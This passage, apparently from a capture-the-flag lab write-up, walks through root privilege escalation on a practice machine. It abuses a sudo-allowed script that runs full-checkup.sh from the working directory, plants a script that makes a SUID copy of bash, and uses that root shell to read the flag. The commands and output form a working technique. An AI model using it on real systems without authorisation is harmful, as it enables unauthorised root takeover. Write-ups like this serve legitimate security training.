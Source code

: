 It is trying to run `full-checkup.sh` from the current directory. It failed before because that file didn’t exist.

#### Exploit

I can put whatever I want into a `full-checkup.sh` and it will run as root if I start `system-checkup.py full-checkup` in the same directory.

I’ll have it copy `bash` and set my copy as SetUID to run as root:

```

svc@busqueda:/dev/shm$ echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/0xdf\nchmod 4777 /tmp/0xdf' > full-checkup.sh
svc@busqueda:/dev/shm$ cat full-checkup.sh 
#!/bin/bash

cp /bin/bash /tmp/0xdf
chmod 4777 /tmp/0xdf
svc@busqueda:/dev/shm$ chmod +x full-checkup.sh 

```

It’s important to set it as executable as well.

I’ll run `system-checkup.py` and it reports success:

```

svc@busqueda:/dev/shm$ sudo python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!

```

`/tmp/0xdf` is there, owned by root, and the `s` bit is on:

```

svc@busqueda:/dev/shm$ ls -l /tmp/0xdf 
-rwsrwxrwx 1 root root 1396520 Mar 31 19:57 /tmp/0xdf

```

I’ll run with `-p` to [not drop privs](/2022/05/31/setuid-rabbithole.html):

```

svc@busqueda:/dev/shm$ /tmp/0xdf -p
0xdf-5.1#

```

And grab `root.txt`:

```

0xdf-5.1# cat root.txt
e7df7cd2************************

```